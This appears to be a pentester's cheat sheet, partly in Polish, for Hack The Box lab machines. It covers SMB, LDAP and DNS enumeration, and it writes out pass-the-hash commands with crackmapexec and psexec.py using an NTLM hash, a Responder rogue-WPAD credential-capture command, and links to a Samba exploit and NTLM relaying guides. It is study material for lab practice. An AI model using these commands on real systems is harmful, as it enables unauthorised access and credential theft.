 - smbclient -N //10.10.10.161/Share

## SMBMAP

- smbmap -H 10.10.10.3
[+] Finding open SMB ports....
[+] User SMB session establishd on 10.10.10.3...
[+] IP: 10.10.10.3:445	Name: 10.10.10.3                                        
	Disk                                                  	Permissions
	----                                                  	-----------
	print$                                            	NO ACCESS
	tmp                                               	READ, WRITE
	opt                                               	NO ACCESS
	IPC$                                              	NO ACCESS
	ADMIN$                                            	NO ACCESS

- smbmap -H 10.10.10.161 -u anonymous -d HTB.LOCAL

- smbmap -H 10.10.10.161 -u anonymous -d localhost

## CRACKMAPEXEC
- KALI: `crackmapexec smb 10.10.10.161 -u Administrator -H aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6`

## PSEXEC
- KALI: `./psexec.py -dc-ip 10.10.10.161 -hashes aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6 administrator@10.10.10.161`
- Samba 3.0.20 < 3.0.25rc3 **exploit**

https://gist.github.com/joenorton8014/19aaa00e0088738fc429cff2669b9851

- Link do enumeracji: https://0xdf.gitlab.io/2018/12/02/pwk-notes-smb-enumeration-checklist-update1.html?fbclid=IwAR1qQDsLzkudInhrnUwL1V9ONiVXMD-vW1V5hrEI92xmuhlExEFOmyu_3xc#check-null-sessions

- NetNTLM relaying:

https://byt3bl33d3r.github.io/practical-guide-to-ntlm-relaying-in-2017-aka-getting-a-foothold-in-under-5-minutes.html

## LDAP
ldapsearch -x -h 10.10.10.161 -s base namingcontexts
ldapsearch -x -h lightweight.htb -b "dc=lightweight,dc=htb" 

responder.py -I eth0 -w -f

-w : WPAD rogue server
-f : This option allows you to fingerprint a host that issued an NBT-NS or LLMNR query.

## DNS
nslookup
SERVER 10.10.10.161
- 127.0.0.1
- 10.10.10.161
